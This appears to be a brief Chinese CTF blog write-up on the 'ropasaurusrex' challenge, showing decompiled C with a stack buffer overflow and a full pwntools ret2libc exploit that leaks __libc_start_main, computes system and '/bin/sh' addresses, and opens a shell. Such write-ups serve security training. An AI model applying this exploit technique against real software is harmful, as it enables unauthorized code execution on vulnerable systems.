


# 
#0blog



```c
ssize_t __cdecl main()
{
  sub_80483F4();
  return write(1, "WIN\n", 4u);
}

ssize_t sub_80483F4()
{
  char buf; // [esp+10h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
```

很简单的逻辑，输入、打印。
write出`__libc_start_main` 的地址，找偏移。



哦，就是有个问题，本来返回地址设置为main的地址，BUT。。。有问题。。。不明白，所以设置成了下一个函数地址。

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF("./ropasaurusrex")
libc = ELF("./libc.so.6")
#main = elf.symbols['main']
main = 0x80483F4

libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']

p = process("./ropasaurusrex")

payload = flat(['A' * 140, write_plt, main, 1, libc_start_main_got, 8])
p.sendline(payload)
#gdb.attach(proc.pidof(p)[0])
libc_start_main_addr = u32(p.recv()[:4])
print 'libc_start_main_addr: ' + hex(libc_start_main_addr)

system_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - libc.symbols['system'])
binsh_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - next(libc.search('/bin/sh')))
print 'system_addr: ' + hex(system_addr)
print 'binsh_addr: ' + hex(binsh_addr)

payload = flat(['A' * 140, system_addr, main, binsh_addr])
p.sendline(payload)
p.interactive()
```